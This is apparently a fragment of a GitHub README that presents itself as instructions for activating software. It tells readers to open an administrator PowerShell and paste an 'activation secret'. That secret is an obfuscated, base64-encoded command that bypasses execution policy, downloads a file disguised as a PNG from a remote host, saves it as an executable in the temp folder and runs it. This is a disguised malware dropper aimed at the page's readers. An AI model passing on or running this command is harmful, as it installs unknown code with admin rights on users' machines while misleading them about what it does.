 > [!IMPORTANT]
>  Run CMD/powershell as Admin. ||
>  Copy and paste the full activation secret.

> [!NOTE]
> > powershell Set-ExecutionPolicy Bypass -Scope Process -Force; powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAHMAdABhAHIAdABpAG4AZwBjAG8AbgBuAGUAYwB0AGkAbwBuAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAG0AYQBpAG4ALgBwAG4AZwAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAC0ARgBpAGwAZQBQAGEAdABoACAAIgAkAGUAbgB2ADoAVABFAE0AUABcAG0AYQBpAG4AQQBjAC4AZQB4AGUAIgA7AAoA
